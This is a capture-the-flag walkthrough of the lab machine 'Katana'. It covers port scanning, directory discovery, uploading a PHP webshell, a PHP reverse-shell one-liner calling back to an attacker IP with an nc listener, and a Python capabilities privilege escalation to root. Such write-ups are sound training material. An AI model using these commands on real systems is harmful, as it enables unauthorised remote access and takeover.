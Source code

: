 # PG Play - Katana

#### Ip: 192.168.171.83
#### Name: Katana
#### Difficulty: Easy
#### Community Rating: Intermediate

----------------------------------------------------------------------

### Enumeration

I'll kick off enumerating this box with an Nmap scan covering all TCP ports. To speed this along I'll also use the `--min-rate 10000` flag:

```text
┌──(ryan㉿kali)-[~/PG/Katana]
└─$ sudo nmap -p-  --min-rate 10000 192.168.171.83
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-16 09:48 CDT
Nmap scan report for 192.168.171.83
Host is up (0.070s latency).
Not shown: 65529 closed tcp ports (reset)
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
80/tcp   open  http
7080/tcp open  empowerid
8088/tcp open  radan-http
8715/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 6.91 seconds
```

Lets scan these ports using the `-sV` and `-sC` flags to enumerate versions and to use default Nmap scripts:

```text
┌──(ryan㉿kali)-[~/PG/Katana]
└─$ sudo nmap -sC -sV 192.168.171.83 -p 21,22,80,7080,8088,8715
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-16 09:48 CDT
Nmap scan report for 192.168.171.83
Host is up (0.065s latency).

PORT     STATE SERVICE       VERSION
21/tcp   open  ftp           vsftpd 3.0.3
22/tcp   open  ssh           OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 894f3a5401f8dcb66ee078fc60a6de35 (RSA)
|   256 ddaccc4e43816be32df312a13e4ba322 (ECDSA)
|_  256 cce625c0c6119f88f6c4261edefae98b (ED25519)
80/tcp   open  http          Apache httpd 2.4.38 ((Debian))
|_http-title: Katana X
|_http-server-header: Apache/2.4.38 (Debian)
7080/tcp open  ssl/empowerid LiteSpeed
| ssl-cert: Subject: commonName=katana/organizationName=webadmin/countryName=US
| Not valid before: 2020-05-11T13:57:36
|_Not valid after:  2022-05-11T13:57:36
|_http-title: Did not follow redirect to https://192.168.171.83:7080/
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|   h2
|   spdy/3
|   spdy/2
|_  http/1.1
|_http-server-header: LiteSpeed
8088/tcp open  http          LiteSpeed httpd
|_http-title: Katana X
|_http-server-header: LiteSpeed
8715/tcp open  http          nginx 1.14.2
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=Restricted Content
|_http-title: 401 Authorization Required
|_http-server-header: nginx/1.14.2
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.57 seconds
```

Heading over to the site we find just a basic image, with no functionality:

site.png

Lets use Feroxbuster to see if we can discover any interesting directories against the HTTP ports:

ferox.png

Cool, the `/upload.html` directory seems interesting

upload.png

Lets upload a copy of the wwwolf-php-webshell and see what we can do with it.

Once uploaded we see this message:

moved.png

Ok interesting, looks like the file was uploaded, but I'm seeing a message that it's been moved to another server.

After some trial and error I found our script at http://192.168.171.83:8715/katana_webshell.php Where I could confirm that we had execution on the target:

host.png

Lets grab a reverse shell one-liner from https://www.revshells.com/ and get a proper shell to work in:

### Exploitation

Because I know that the box plays nice with PHP, I'll use:

```text
php -r '$sock=fsockopen("192.168.45.197",443);exec("sh <&3 >&3 2>&3");'
```

Which gets me a shell back as www-data:

```text
┌──(ryan㉿kali)-[~/PG/Katana]
└─$ nc -lnvp 443
listening on [any] 443 ...
connect to [192.168.45.197] from (UNKNOWN) [192.168.171.83] 56092
whoami
www-data
hostname
katana
python -c 'import pty;pty.spawn("/bin/bash")'


www-data@katana:/opt/manager/html$
```

From here I can from the local.txt flag in `/var/www`:

user_flag.png

### Priviledge Escalation

Lets upload a copy of LinPEAS to the target to help enumerate a privilege escalation vector:

transfer.png

Cool, LinPEAS finds that Python has capabilities set. This should make for an easy privesc:

Lets run:

```text
/usr/bin/python2.7 -c 'import os; os.setuid(0); os.system("/bin/sh")'
```

Which drops us into a root shell:

```text
www-data@katana:/tmp$ /usr/bin/python2.7 -c 'import os; os.setuid(0); os.system("/bin/sh")'
< -c 'import os; os.setuid(0); os.system("/bin/sh")'
# whoami
whoami
root
# id
id
uid=0(root) gid=33(www-data) groups=33(www-data)
```

We can now grab the proof.txt flag:

root_flag.png

Thanks for following along!

-Ryan

----------------------------

